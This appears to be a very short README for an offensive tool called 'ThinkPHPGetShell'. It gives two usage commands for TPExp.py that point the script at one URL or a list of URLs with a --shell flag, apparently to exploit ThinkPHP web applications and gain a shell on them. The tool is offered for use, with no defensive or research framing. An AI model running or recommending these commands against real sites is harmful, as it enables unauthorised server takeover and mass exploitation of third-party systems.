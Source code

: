 # ThinkPHPGetShell

```Python
python TPExp.py -f url.txt --shell
```
```Python
python TPExp.py -u http://xx.com --shell
```
